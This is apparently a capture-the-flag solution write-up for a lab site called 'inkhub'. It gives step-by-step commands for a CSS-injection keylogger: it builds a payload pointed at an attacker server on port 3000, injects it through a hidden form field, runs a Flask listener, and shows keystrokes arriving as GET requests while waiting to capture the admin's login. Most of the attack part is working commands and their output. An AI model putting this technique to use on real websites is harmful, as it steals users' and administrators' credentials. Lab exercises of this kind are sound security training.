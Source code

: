 # Solution

A provided PoC is placed in [./css-keylogger](./css-keylogger). Here's a quick boiler-plate set of commands to set things up.

```
cd ./css-keylogger
python -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

Now follow these instructions:

- Generate css keylogger payload using the helper script `make-css-keylogger.py` providing the endpoint for your keylogger server (keep reading, it will make sense)

    ```
    python make-css-keylogger.py http://172.22.209.203:3000
    ```

- The above command should create two files: `keylogger.css` and `injection-string.txt`. The `injection-string.txt` 
is a wrapper injection string around the content of `keylogger.css`.

- Goto the inkhub website, login as `user`, and open the share-quote modal.
  1. Fill the quote text with an _inspiring quote_ "Pwned by css. Pwned by css. Pwned by css. Pwned by css.".
  2. Unhide the `new-quote-color` field.
  3. Copy and paste the content of `injection-string.txt` into the `new-quote-color` field, and submit.
  ![](imgs/css-injection-vector.png)
  
- Confirm that the injection went through by checking `styles.css`
  ![](imgs/css-injection-confirmation.png)

- Start the keylogger `server.py` to capture logged keystrokes (you can test it locally).
    ```
    python server.py
    ``` 
- The output looks like this when keystrokes are captured.
    ```
     * Serving Flask app 'server'
     * Debug mode: off
    WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
     * Running on all addresses (0.0.0.0)
     * Running on http://127.0.0.1:3000
     * Running on http://172.22.209.203:3000
    Press CTRL+C to quit
    Received 'key' value: s
    172.22.208.1 - - [17/Nov/2024 02:47:52] "GET /?key=s HTTP/1.1" 200 -
    Received 'key' value: e
    172.22.208.1 - - [17/Nov/2024 02:47:52] "GET /?key=e HTTP/1.1" 200 -
    Received 'key' value: r
    172.22.208.1 - - [17/Nov/2024 02:47:52] "GET /?key=r HTTP/1.1" 200 -
    Received 'key' value: u
    172.22.208.1 - - [17/Nov/2024 02:47:53] "GET /?key=u HTTP/1.1" 200 -
    ```
- All keystrokes will be saved to `keystrokes.txt`. Now wait for the admin to login... 
```
watch cat keystrokes.txt
```
